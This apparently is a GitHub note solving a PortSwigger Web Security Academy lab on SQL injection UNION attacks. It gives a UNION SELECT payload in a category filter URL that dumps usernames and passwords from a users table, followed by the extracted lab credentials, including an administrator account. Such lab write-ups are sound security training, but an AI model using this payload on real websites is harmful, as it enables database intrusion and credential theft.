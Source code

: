 # Lab

https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables

## Payload

```sql
/filter?category=Accessories' UNION SELECT username, password FROM users--
```

### Results

```
administrator, tycp2xjyn4p5zl5utyrr
carlos, lgpp3i42qmylqqqv5ko3
wiener, u64414tq10dsmhro6rt3
```